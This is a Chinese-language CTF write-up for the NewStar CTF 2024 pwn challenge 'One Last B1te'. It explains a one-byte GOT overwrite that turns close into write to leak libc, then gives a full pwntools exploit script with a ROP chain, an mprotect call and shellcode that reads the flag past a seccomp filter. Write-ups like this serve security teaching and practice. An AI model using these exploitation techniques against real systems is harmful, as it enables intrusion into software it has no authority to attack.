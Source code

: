 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# One Last B1te

先查保护和沙箱：

```asm
[*] '/home/?????/PWN/NewStar2024-test/hackgot/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
 0005: 0x15 0x03 0x00 0x00000028  if (A == sendfile) goto 0009
 0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
 0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00000000  return KILL
```

没有 PIE，没有 anary，Partial RELRO，意味着存在延迟绑定 + GOT 表可写。

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+8h] [rbp-18h] BYREF
  _BYTE v5[16]; // [rsp+10h] [rbp-10h] BYREF

  init(argc, argv, envp);
  sandbox();
  write(1, "Show me your UN-Lucky number : ", 0x20uLL);
  read(0, &buf, 8uLL);  // 读入一个地址
  write(1, "Try to hack your UN-Lucky number with one byte : ", 0x32uLL);
  read(0, buf, 1uLL);   // 往上面读入的地址中写入一个字符
  read(0, v5, 0x110uLL);// 往栈上读入内容，有栈溢出
  close(1);             // 关闭stdout
  return 0;
}
```

有一次任意地址写的机会。

程序在新版 Ubuntu 24 下编译，优化掉了 CSU，此时我们很难利用 ELF 的 gadget 来 ROP.

我们想办法泄露 libc 地址或者 ld 地址然后利用 libc/ld 中的 gadget 来 ROP，执行 open + read + write 来输出 flag 文件内容。

程序中只有 `write` 函数可以进行输出，我们可以利用一个字节任意地址写的机会，把 `close` 函数的 GOT 表的数值改为`write`函数的 PLT 表的地址（因为存在延迟绑定，`close` 在第一次调用之前指向的是 PLT 中的表项，我们很容易利用修改最低一个字节的方法来使其指向 `write` 函数的 PLT 表）。

之后由于 `close(1)` 设置第一个参数为 1，同时 `read(0, v5, 0x110uLL);` 会残留第 2、3 个参数，我们修改 `close` 的 GOT 表之后相当于执行 `write(1,v5,0x110uLL);`，就可以泄露栈上的内容，正好能泄露 libc 地址，之后利用栈溢出再次启动 `main` 函数栈溢出 ROP 即可。

由于 glibc 2.39 版本不容易控制 rdx 寄存器，我们可以使用 `pop rax` + `xchg eax, edx` 的方法来设置 rdx 寄存器的数值。

```python
# sudo sysctl -w kernel.randomize_va_space=0
# gcc pwn.c -o pwn -masm=intel -no-pie -fno-stack-protector -l seccomp
from pwn import*
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']

ELFpath = './pwn'
p=remote('localhost',11451)
#p=process(['./ld-2.31.so', ELFpath], env={"LD_PRELOAD":'./libc-2.31.so'})
# p=process(ELFpath)

close_got=0x404028
write_plt=0x4010c0

p.sendafter("Show me your UN-Lucky number :",p64(close_got))
p.sendafter("Try to hack your UN-Lucky number with one byte :",b'\xc0')
ret=0x0401447
main=0x4013a3
rubbish=0x404000+0x800
payload=b'a'*0x18+p64(ret)+p64(main)
pause()

p.send(payload)
p.recvuntil(b'a'*0x18)
p.recv(0xb8-0x18)
libc_base=u64(p.recv(6)+b'\x00\x00')-0x710b26c2a28b+0x710b26c00000

p.sendafter("Show me your UN-Lucky number :",p64(rubbish))

p.sendafter("Try to hack your UN-Lucky number with one byte :",b'\x70')

pop_rdi=libc_base+0x010f75b
pop_rsi=libc_base+0x110a4d
binsh=libc_base+0x1cb42f

xchg_edx_eax=libc_base+0x01a7f27

pop_rax=libc_base+0x0dd237

open_a=libc_base+0x011B120
read_a=libc_base+0x011BA50
mprotect=libc_base+0x00125C10

payload=b'a'*0x18+p64(pop_rdi)+p64(libc_base+0x202000)+p64(pop_rsi)+p64(0x2000)+p64(pop_rax)+p64(7)+p64(xchg_edx_eax)+p64(mprotect)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(libc_base+0x202000)+p64(pop_rax)+p64(0x1000)+p64(xchg_edx_eax)+p64(read_a)+p64(libc_base+0x202000)

pause()

p.send(payload)

pause()

shellcode=''
shellcode+=shellcraft.open('./flag',0,0)
shellcode+=shellcraft.read('rax',libc_base+0x202000+0x800,0x100)
shellcode+=shellcraft.write(2,libc_base+0x202000+0x800,'rax')
# gdb.attach(p)
p.send(asm(shellcode))

p.interactive()
```
